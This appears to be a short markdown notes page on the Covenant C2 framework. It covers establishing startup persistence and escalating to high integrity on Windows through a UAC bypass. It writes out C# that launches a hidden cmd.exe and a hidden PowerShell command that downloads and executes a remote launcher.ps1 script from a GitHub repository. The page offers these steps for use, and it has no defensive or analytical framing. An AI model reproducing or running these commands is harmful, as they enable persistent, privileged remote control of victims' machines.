 ## Setup Persistance ([source](https://www.sevenlayers.com/index.php/370-covenant-c2-deep-dive))
- Visibility: none
- GruntTask: **PersistStartup**
- Payload: [here](https://raw.githubusercontent.com/sJ3Wpid/schoolproject/main/launcher.ps1)


## Get high integrity ([source](https://www.sevenlayers.com/index.php/370-covenant-c2-deep-dive))
### Step 1
- Visibility: none
- GruntTask: **SharpShell**
- Code:
```
var startInfo = new System.Diagnostics.ProcessStartInfo { FileName = @\"C:\Windows\System32\cmd.exe\", WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden }; var cmd = new System.Diagnostics.Process { StartInfo = startInfo }; cmd.Start(); return cmd.Id.ToString();
```
### Step 2
- Visibility: High (empty cmd window up to 2s)
- GruntTask: **BypassUACCommand**
- Command: `cmd.exe`
- Parameters: 
```
/c powershell -Sta -Nop -Window Hidden -Command iex (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/sJ3Wpid/schoolproject/main/launcher.ps1')
```
- Directory: none
- ProcessID: {output of step 1}
